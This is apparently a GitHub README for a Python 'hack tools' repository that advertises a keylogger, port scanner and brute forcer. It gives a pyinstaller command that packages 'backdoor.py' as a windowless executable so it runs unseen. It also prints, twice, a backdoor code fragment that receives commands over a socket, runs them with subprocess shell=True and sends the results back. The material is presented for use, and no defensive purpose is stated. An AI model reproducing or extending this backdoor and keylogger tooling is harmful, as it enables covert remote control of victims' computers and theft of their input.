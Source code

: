 # HackToolsV2
Python Keylogger PortScanner BruteForce and basic hack tools.(new ones will come soon)
![Ekran Alıntıs2ı](https://user-images.githubusercontent.com/69467096/112681821-46388780-8e80-11eb-89ab-7d1fc21476ea.PNG)
![Ekran Alıntısı](https://user-images.githubusercontent.com/69467096/112681920-66684680-8e80-11eb-8e59-552d65c3f1fb.PNG)

[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)

## To make exe file write this code block to terminal
```python
pyinstaller backdoor.py --onefile --noconsole
```
### Additional codes:
#command = reliable_recv()
#message = 'Hello world'
#s.send(message.encode())

#s.recv(1024)
#execute = subprocess.Popen(command, shell = True, stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)

#result = execute.stdout.read() + execute.stderr.read()
#reliable_send(result)
```python
command = reliable_recv()
message = 'Hello world'
s.send(message.encode())

s.recv(1024)
execute = subprocess.Popen(command, shell = True, stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)

result = execute.stdout.read() + execute.stderr.read()
reliable_send(result)
```
